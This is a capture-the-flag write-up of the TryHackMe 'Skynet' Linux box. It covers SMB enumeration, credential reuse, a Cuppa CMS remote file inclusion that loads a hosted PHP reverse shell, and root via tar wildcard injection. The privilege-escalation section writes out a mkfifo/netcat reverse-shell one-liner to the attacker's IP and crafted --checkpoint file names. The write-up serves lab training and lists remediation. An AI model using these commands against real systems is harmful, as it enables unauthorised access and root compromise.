










# Skynet — TryHackMe

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Key techniques** | Anonymous SMB, credential-reuse, LFI → RFI on Cuppa CMS, `tar` wildcard `--checkpoint-action` cron abuse |

---

## TL;DR

Skynet is a "Terminator" themed Linux box that stacks four fairly
common Linux-CTF primitives:

1. Anonymous SMB gives up **Miles Dyson's Squirrelmail password**
   from a leaked note in his home share.
2. That password unlocks Squirrelmail, where an email points at a
   hidden `/45kra24zxs28v3yd/` directory hosting **Cuppa CMS**.
3. Cuppa CMS's `alerts/alertConfigField.php?urlConfig=` is a
   textbook **LFI/RFI** — I host a PHP reverse shell on my box and
   include it remotely for RCE.
4. As `milesdyson` I find a **root cron** that runs `tar` over
   `/var/www/html/*` with a wildcard. Dropping `--checkpoint=1
   --checkpoint-action=exec=sh shell.sh` files into the web root
   makes `tar` execute my shell as root.

---

## Recon

```bash
nmap -sC -sV -p- 10.10.130.201
```



Open ports: **22 (SSH), 80 (Apache/Squirrelmail), 110 (POP3), 139/445
(Samba), 143 (IMAP)**. Web + SMB combo on a Linux target is worth
enumerating together — SMB often leaks paths or credentials that turn
webmail into a real credential.

---

## SMB — Miles's password on a share

```bash
smbmap -H 10.10.130.201
smbclient -N //10.10.130.201/anonymous
```




The `anonymous` share is readable and holds `attention.txt` plus a
`logs/` directory. `attention.txt` is a warning that the sysadmin
reset passwords using a leaked wordlist. The interesting bit is
`logs/log1.txt`, which contains what looks like a shortlist of new
passwords tried on the box:




---

## Web — Squirrelmail as milesdyson

Port 80 is Squirrelmail. `milesdyson`'s login worked with one of the
passwords from `log1.txt`:




An email in his inbox contains **Miles's SMB password** (a longer
one, reset after the incident). It also references a hidden internal
directory. I logged back into SMB as `milesdyson` for a second look:




`important.txt` points at the internal directory
`/45kra24zxs28v3yd/`:



Browsing to it reveals a **Cuppa CMS** admin panel:


Directory brute forcing under it uncovered the `administrator/`
subfolder:

```bash
gobuster dir -u http://10.10.130.201/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```





---

## Foothold — Cuppa CMS LFI → RFI

Cuppa CMS has a well-known unauthenticated vulnerability:
`administrator/alerts/alertConfigField.php` takes an `urlConfig`
parameter and `include()`s it directly. Whatever I pass — local
path, `php://filter`, or a remote URL — gets executed as PHP.

```bash
searchsploit cuppa cms
```


I hosted a PHP reverse shell on my box and called the vulnerable
endpoint with `urlConfig=http://<attacker>:8000/reverse_shell.php`:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php reverse_shell.php
# edit IP + port
python3 -m http.server 8000
```


Trigger URL:

```
http://10.10.130.201/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.174.19:8000/reverse_shell.php
```


user.txt is in `/home/milesdyson/`.

---

## Privilege Escalation — `tar` wildcard cron

`milesdyson` has a scheduled task in `/home/milesdyson/backups/backup.sh`:

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

The critical detail: **the wildcard `*` is passed to `tar`**, which
interprets any filename starting with `--` as a **command-line option**.
`tar` supports `--checkpoint=N` (progress checkpoint) and
`--checkpoint-action=exec=CMD` (run a command at each checkpoint).
Combined, they let me hand `tar` a shell command to run as root.

Confirm the cron with `pspy` or by watching `/etc/cron.d`:

```bash
# in the www-data shell
crontab -l          # (nothing)
cat /etc/crontab    # backup.sh runs every minute
```

The exploit is three files staged in `/var/www/html/`:

```bash
cd /var/www/html
echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.21.174.19 1234 > /tmp/f' > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

When cron runs `tar cf … *`, glob expansion turns the `--checkpoint*`
files into **flags** — `tar` reads them as arguments, fires the
`exec=sh shell.sh` on the first checkpoint, and my listener catches a
root shell:

```bash
nc -lvnp 1234
```



---

## Lessons Learned

- **SMB → webmail → CMS is a real Linux CTF flow.** Any anonymously
  readable share worth reading has a shortlist of passwords, a
  hidden path, or a mail note pointing at the next step. Grep for
  `password`, `admin`, `internal`, `todo`.
- **Cuppa CMS `urlConfig=` is one of those "always test it" endpoints.**
  When you see any CMS with a config-loading GET parameter, throw a
  `php://filter/read=convert.base64-encode` at it before you do
  anything else — half the time you get source, the other half you
  get RCE.
- **`tar` + wildcard + cron = root.** The pattern
  `tar cf backup.tgz *` in any script running as a higher user is a
  privesc. `--checkpoint-action` is the payload; `zip` has an
  equivalent (`-T --unzip-command`) and `rsync` too.
- **PHP reverse shell via RFI still works on old boxes.** Hosting
  the payload on a local Python HTTP server is the simplest way —
  no upload required, no auth needed on the CMS.

---

## Remediation

- **Do not host anonymous SMB shares** on Internet-facing hosts.
  Even read-only, they leak filesystem layouts, user directories,
  and — as here — passwords in log files.
- **Patch Cuppa CMS** (or replace it — the project is unmaintained).
  Any CMS whose LFI has a public exploit older than a year should
  not be running on production.
- **Never pass unquoted wildcards to `tar`/`zip`/`rsync` in a
  privileged script.** Either use `--` before the glob to end
  option parsing, or specify explicit file names.
- **Filter `--` file names in web roots.** A `find … -name '--*'
  -delete` cron job as part of your hardening is cheap insurance.

---

## Tools used

- `nmap`
- `smbmap`, `smbclient`
- `gobuster` (dir)
- `searchsploit`
- Python HTTP server (`python3 -m http.server`)
- `nc`, `mkfifo`, `sh`
- Cuppa CMS LFI PoC (EDB-25971)
---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/skynet/)
